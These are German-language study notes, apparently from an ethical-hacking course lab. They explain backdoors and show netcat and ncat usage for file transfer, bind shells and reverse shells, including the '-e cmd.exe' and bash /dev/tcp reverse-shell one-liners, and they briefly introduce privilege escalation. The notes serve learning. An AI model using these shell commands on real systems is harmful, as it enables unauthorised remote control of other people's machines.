



Backdoors werden nach einem erfolgreichem Angriff installiert um den Angreifer einen jederzeitigen Zugang zum System zu ermöglichen. Backdoors sind für reguläre User nicht sichtbar.

Backdoors werden in einer Angriffsphase "maintaining access" eingesetzt 

Meist eine shell in die sich ein Angreifer jederzeit einloggen kann.

- Installation durch ausnutzen von Schwachstellen mit sogenannten shellcode – Schadsoftware die eine shell installiert.

- Backdoors sind manchmal auch in Produkten absichtlich vom Hersteller integriert (undokumentiert und geheim). Zweck: User Support. Wird von Hackern gerne ausgenutzt.



Um die Malware zu verstecken werden rootkits verwendet.


## Netcat und Ncat

`nc` "netcat" –  sehr flexibles Netzwerk Tool (Chat, Datei)

`ncat` ist eine Weiterentwicklung (aus dem nmap Projekt) muss unter Kali installiert werden. Ist weitgehend zu netcat kompatibel unterstützt aber mehr Features.

```bash
$ apt-get install ncat
```

 Ziel: Verbindung Kali zu Windows über Netcat. Installation von nc auf Windows notwendig. Das Windows Programm ist unter Kali Linux verfügbar:

```bash
$ ls /usr/share/windows-binaries
$ ls -l nc.exe
# Datei zum download bereitstellen

#  kopieren in das Document root verzeichnis des Apache Webservers
$ cp nc.exe /var/www/html/
$ cd /var/www/html/
$ ls

# Webserver starten
$ service apache2 start

# läuft er?
$ ps -ax

# und ist an port gebunden?
$ netstat -tlpn | grep 80
```

Nun unter Windows mit einem Browser herunterladen

```
URL: http://192.../nc.exe
```

Eventuell spricht der Browser Malwareschutz an.

Nun unter Windows nc starten:

```
c:\nc>nc <Ziel IP> <port>
```


Betreiben ncat als Server (Kali) – nc müsste genauso gehen weil kompatibel

```bash
$ ncat -lvnp 4444
# -l ... listen
# -v ... verbose
# -n ... numeric only (keine Namensauflösung)
# -p <port> port an den der Server gebunden werden soll
... Listening on ...
```

Anschauen (in weiterem Terminal) ob Server gebunden ist

```bash
$ netstat -tlpn | grep 4444
```

Windows

```
c:\nc>nc <Ziel IP> 4444

```

Auf der Server Seite tut sich nun etwas (Log Ausgaben)

Auf der Client Seite kann ein beliebiger Text eingegeben werden nach Return erscheint dieser am Server.

Das geht auch umgekehrt, d.h. Eingabe+Return am Server

Es können beliebige Daten übertragen und in Dateien gespeichert werden.


```
c:\nc>nc -nlvp 4444 > data.txt

```

Windows Firewall bemerkt das allerdings!

Kali:

```bash
$ ncat <Ziel IP> 4444
# ein paar Zeilen eingeben
# mit Ctrl-C beenden
```

Unter Windows stehen die eingegebenen Daten nun in `data.txt`

```
c:\nc>nc -nlvp 4444 > wget.exe
```


```bash
$ ncat <Ziel IP> 4444 < /usr/share/windows-binaries/wget.exe
```


### Bind shell

mit der `-e` Option kann ein beliebiges Programm mit dem netcat Server verbunden werden, z.B. eine shell.

```bash
$ ncat -nlvp 4444 -e /bin/bash
```

```
c:\nc>nc <Ziel IP> 4444
```

Auf der Client Seite können Linux Kommandos eingegeben werden, z.B. `ifconfig`, `ls`, `whoami`

Heißt Bind Shell weil diese an einen Port gebunden wurde. 

In der umgekehrten Richtung:

```bash
 c:\nc>nc -nlvp 4444 -e cmd.exe
```

```bash
$ ncat <Ziel IP> 4444
```

z.B. `ipconfig`, `whoami`, `dir`


### Reverse shell

Firewalls behandeln eingehenden Traffic restriktiver als ausgehende Kommunikation.

Das bedeutet, dass es erfolgsversprechender ist ein Verbindung vom Opfer System aus zu starten. In diesem Fall sind die Chancen besser, dass die Verbindung nicht blockiert wird. D.h. das Opfer System initiiert die Verbindung zum Hacker-System. Auf dem Hacker-System muss dazu ein Server laufen und auf die Verbindung warten. 

Am Hacker-System starten wir den Server:

```bash
$ ncat -nlvp 443
```

443 ist der https port

Am Opfer-System nun als Client die Verbindung zum Angreifer aufbauen und eine shell bereitstellen.

```
c:\nc>nc -nv <Ziel IP> 443 -e cmd.exe
```

ToDo: Ausprobieren ob man so die Windows Firewall umgehen kann.

Weitere Variante für die Client Seite:

```bash
$ bash -i >& /dev/tcp/<Ziel IP>/443 0>&1
# -i ... interaktive bash
# >$ ... Ausgabe umleiten (redirecting  standard  output  and  standard error)
# 0>&1 ... stdin (0) ebenfalls von der Netzwerkverbindung nehmen. Damit wird alles vom Zielsystem gesendete von der bash als stdin interpretiert (d.h. die Kommandos)
```


### Privilege Escalation

In einem ersten Schritt erhält ein Angreifer normalerweise nur eine shell eines Users mit normalen Rechten. Das Ziel ist dann diese Rechte bis zur root shell mit Administrator-Privilegien zu erweitern.

Oft ist das erste kontrollierte System auch nur ein Sprungbrett um weitere Systeme zu kompromitieren.




### Beispiel für Privilege Escalation

Reverse shell durch exploit Kali/msf --> Metasploitable

Video 159/160/161/162

Im letzten Schritt erhält man root Rechte

ToDo: Durcharbeiten und Dokument dazu erstellen


